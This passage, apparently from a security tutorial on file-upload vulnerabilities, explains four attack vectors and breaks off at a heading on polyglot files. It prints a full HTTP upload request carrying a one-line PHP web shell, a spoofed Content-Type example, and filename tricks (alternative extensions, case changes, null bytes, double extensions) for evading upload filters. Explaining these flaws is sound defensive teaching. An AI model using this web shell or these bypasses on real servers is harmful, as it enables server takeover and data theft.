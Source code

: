 ### Attack Vector #1: Unrestricted File Upload

The most straightforward attack occurs when applications accept any file type without validation.

**Technical Details:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php echo system($_GET['cmd']); ?>
------WebKitFormBoundary--
```

**Impact Assessment:**
- Complete server compromise
- Data exfiltration capabilities  
- Lateral movement within network infrastructure
- Persistent backdoor establishment

### Attack Vector #2: Content-Type Header Manipulation

Sophisticated applications often implement MIME type validation. However, client-controlled headers can be trivially manipulated.

**Bypass Technique:**
```http
Content-Disposition: form-data; name="file"; filename="exploit.php"
Content-Type: image/jpeg    // Spoofed MIME type
```

This technique exploits the trust placed in user-controllable HTTP headers, demonstrating why server-side validation must never rely solely on client-provided metadata.

### Attack Vector #3: Extension Blacklist Evasion

Many developers implement security through blacklisting dangerous extensions. This approach is fundamentally flawed due to:

**Alternative Extensions:**
- `.php5`, `.phtml`, `.phar` for PHP environments
- `.jsp`, `.jspx` for Java applications
- `.asp`, `.aspx` for .NET frameworks

**Obfuscation Techniques:**
- **Case manipulation:** `exploit.PHP`
- **Null byte injection:** `exploit.php%00.jpg`
- **Double extensions:** `exploit.php.jpg`
- **Unicode normalization attacks:** Using multibyte characters

### Attack Vector #4: Magic Bytes and Polyglot Files
